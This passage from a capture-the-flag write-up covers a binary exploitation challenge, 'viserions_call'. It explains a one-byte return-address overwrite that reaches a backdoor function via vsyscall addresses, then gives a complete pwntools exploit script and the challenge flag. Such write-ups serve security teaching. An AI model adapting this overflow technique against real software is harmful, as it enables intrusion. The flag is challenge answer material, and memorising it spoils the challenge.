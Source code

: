 ```
$5 = 0xd8
gdb-peda$ 

```

We see that, the address of `backdoor` is `0x55b05bcd15df` and the address at the 27th offset on the stack can be used to overwrite it to that of the backdoor function, using a single byte overwrite. Therefore our second part of the payload can look something like:

```
ret_addr = 0xffffffffff600000
pay = p64(ret_addr)*27+'\xdf'

```

## Exploit:
```python=

from pwn import *
from ctypes import CDLL

if __name__=="__main__":
	context.log_level="debug"
	
	p = process('./viserions_call', env={"LD_PRELOAD" : "./libc.so.6"})
	#p = remote('gc1.eng.run', 31459)
	libc = CDLL("libc.so.6")
	libc.srand(int(time.time()) & 0xffffff00)
	rand_val = libc.rand()

	gdb.attach(p, gdbscript='''b*main+95\n''')
	
	info("rand : %s"%rand_val)
	
	p.recvuntil('Name:\n')
	p.sendline(b'abcd')
	
	p.recvuntil('Password:\n')

	pay = b's3cur3_p4ssw0rd\x00'
	pay += b'\x00'*(0x1c - 8 - len(pay))
	pay += p64(0xffffffffff600000)
	pay += p64(rand_val)

	p.send(pay)

	ret_addr = 0xffffffffff600000
	pay = p64(ret_addr)*27+'\xdf'

	p.send(pay)
	s = p.recv()
	print(s)
p.interactive()
p.close()

```

## Flag:
```
inctf{v1s3r10n_c4ll5_f0r_4_v5y5c4ll_b16bffd956efa6fd}
```

